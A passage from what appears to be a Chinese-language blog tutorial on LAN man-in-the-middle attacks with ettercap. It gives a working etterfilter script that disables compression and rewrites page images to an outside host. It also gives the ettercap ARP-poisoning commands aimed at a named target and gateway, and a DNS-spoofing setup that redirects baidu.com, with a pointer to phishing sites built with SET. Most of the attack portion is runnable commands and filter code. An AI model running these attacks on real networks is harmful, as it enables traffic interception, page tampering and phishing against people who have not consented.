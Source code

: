 
过滤脚本的语法很简单，可以直接man etterfilter查看。上述脚本的第一个if块的含义是使得请求的数据包不要进行压缩。需要特别注意的是，if和括号之间必须有空格，而函数和括号之间不能有空格。将上述过滤脚本保存为alert.filter，然后编译：

    etterfilter alert.filter -o alert.ef

其中编译后的alert.ef是ettercap可识别的二进制过滤文件。

这里假设要攻击的目标为192.168.1.106，网关为192.168.1.1，使用上述过滤脚本进行攻击的方法为：

     ettercap -i wlan0 -Tq -M arp:remote /192.168.1.106/ /192.168.1.1/ -F alert.ef

 运行后当目标用浏览器浏览http网站的时候，就会出现弹窗显示“big brother is watching you”

![Big brother watching]({{ site.baseurl}}/images/big-brother-watching.png)

除了插入脚本，还可以替换网页的图片和文本等内容，这里以替换图片为例，过滤脚本为：

    if (ip.proto == TCP && tcp.dst == 80) 
    {
       if (search(DATA.data, "Accept-Encoding")) 
    　　{
          replace("Accept-Encoding", "Accept-Rubbish!"); 
          # note: replacement string is same length as original string
          msg("zapped Accept-Encoding!\n");
       }
    }
    if (ip.proto == TCP && tcp.src == 80) 
    {
       replace("img src=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" ");
       replace("IMG SRC=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" ");
       msg("Replace OK.\n");
    }

运行方法还是与之前类似。这里用到了内置函数replace()，etterfilter里还有很多有用的内置函数，详情可以在manpage中查看。

随便打开一个美女图片的网站，替换效果如下：

![replace img](http://images2015.cnblogs.com/blog/676200/201510/676200-20151003103038152-1419285557.png)

**DNS欺骗**

DNS为域名解析，即从url网址到ip地址的转换过程，通过DNS欺骗，我们可以把目标的请求重定向到指定的ip地址去，比如钓鱼地址。利用现有的工具，比如SET（social engineering toolkit）就可以很容易伪造钓鱼网站
从而使目标上当，当然这是后话了。通过ettercap的dns\_spoof插件就可以对目标的DNS进行污染，值得一提的是，ettercap里有很多插件，都通过-P选项来调用。

要使用DNS欺骗，首先修改/usr/local/share/ettercap/etter.dns文件，添加对应的url到ip的映射关系，

    baidu.com     　　  A     　　202.89.233.101
    *.baidu.com     　　A    　　 202.89.233.101
    www.baidu.com   　PTR        202.89.233.101

然后再运行

    ettercap -i wlan0 -Tq -M arp:remote /192.168.1.106/ /192.168.1.1/ -P dns_spoof
